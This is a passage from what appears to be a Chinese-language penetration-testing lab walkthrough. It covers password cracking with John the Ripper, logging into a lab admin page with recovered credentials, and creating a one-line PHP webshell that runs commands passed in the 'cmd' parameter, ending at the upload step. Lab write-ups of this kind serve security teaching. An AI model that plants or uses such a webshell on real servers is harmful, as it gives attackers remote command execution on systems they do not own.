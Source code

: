         ![](img/md5.png)

    * [John-The-Ripper](http://www.openwall.com/john/)

        John-The-Ripper也需要事先知晓采用的是何种加密算法。

* 破解后登录

    在`http://192.168.56.5/admin/login.php`页面，使用用户名：`admin`，密码：`P4ssw0rd`登录，登录成功。

    ![](img/login.png)

## 5. 简单webshell
1. 创建一个简单的PHP脚本`shell.php`
    ```php
    <?php
    system($_GET['cmd']);
    ?>
    ```
    用于实现在命令行cmd中执行命令并返回结果。

2. 上传到网页
